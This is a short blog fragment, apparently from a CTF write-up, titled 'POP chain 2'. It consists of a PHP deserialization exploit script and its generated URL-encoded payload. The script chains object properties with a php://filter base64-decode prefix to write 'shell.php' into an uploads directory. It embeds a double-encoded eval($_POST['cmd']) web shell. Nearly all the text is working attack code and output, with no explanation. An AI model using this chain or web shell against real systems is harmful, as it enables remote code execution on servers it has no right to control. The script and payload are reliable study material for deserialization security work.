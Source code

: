 
> 
POP链_2


```
&lt;?php

class A {
    protected $store;
    protected $key;
    protected $expire;

    public function __construct($store,$key,$expire)
    {
        $this-&gt;key=$key;
        $this-&gt;expire=$expire;
        $this-&gt;store=$store;
    }
}

class B{
    public $option;
}

$b=new B();
$b-&gt;options['serialize']='base64_decode';
$b-&gt;options['data_compress']=false;
$b-&gt;options['prefix']='php://filter/write=string.strip_tags|convert.base64-decode/resource=uploads/';

$a=new A($b,'shell.php',0);
$a-&gt;autosave=false;
$a-&gt;cache=array();
$a-&gt;complete=base64_encode(base64_encode('&lt;?php @eval($_POST["cmd"]); ?&gt;'));
echo urlencode(serialize($a));
?&gt;
=&gt;
O%3A1%3A%22A%22%3A6%3A%7Bs%3A8%3A%22%00%2A%00store%22%3BO%3A1%3A%22B%22%3A2%3A%7Bs%3A6%3A%22option%22%3BN%3Bs%3A7%3A%22options%22%3Ba%3A3%3A%7Bs%3A9%3A%22serialize%22%3Bs%3A13%3A%22base64_decode%22%3Bs%3A13%3A%22data_compress%22%3Bb%3A0%3Bs%3A6%3A%22prefix%22%3Bs%3A76%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dstring.strip_tags%7Cconvert.base64-decode%2Fresource%3Duploads%2F%22%3B%7D%7Ds%3A6%3A%22%00%2A%00key%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A9%3A%22%00%2A%00expire%22%3Bi%3A0%3Bs%3A8%3A%22autosave%22%3Bb%3A0%3Bs%3A5%3A%22cache%22%3Ba%3A0%3A%7B%7Ds%3A8%3A%22complete%22%3Bs%3A56%3A%22UEQ5d2FIQWdRR1YyWVd3b0pGOVFUMU5VV3lKamJXUWlYU2s3SUQ4Kw%3D%3D%22%3B%7D

```

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2021051909445078.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210519094459390.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>
